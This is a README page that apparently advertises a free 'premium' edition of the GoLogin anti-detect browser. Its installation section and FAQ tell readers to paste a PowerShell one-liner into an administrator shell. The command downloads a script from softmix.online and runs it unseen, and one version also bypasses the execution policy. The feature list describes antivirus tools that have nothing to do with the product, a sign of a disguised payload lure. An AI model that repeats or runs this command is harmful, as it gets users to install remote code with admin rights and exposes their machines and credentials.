

<div align="center">


<br>


# GoLogin Multi-Browser Anti-Detect Premium
**Multi-browser identity management · Cloud and local profile sync · Premium anti-detect toolkit**
<br>
**Multi-browser identity management · Cloud and local profile sync · Premium anti-detect toolkit**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all multi-browser modules and premium anti-detect tools enabled.**

</div>
---

> Official licensed access to GoLogin premium profiles, cloud sync, and every anti-detect module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🛡️ **Real-time protection** — Malware and ransomware shields enabled.
🔥 **Firewall controls** — Network rules and app monitoring included.
🌐 **Web protection** — Safe browsing and phishing filters active.
📦 **Local security suite** — Works after one-time setup.
🖥️ **Windows optimized** — Lightweight daily protection on 10/11.
⚙️ **Pro modules** — Premium security features enabled in this build.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 1.5 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 1.5 GB.
</details>


TAGS
gologin, anti-detect, multi-browser, cloud-profiles, fingerprint-masking, proxy-integration, enterprise, windows, desktop, pro, software, studio, tools
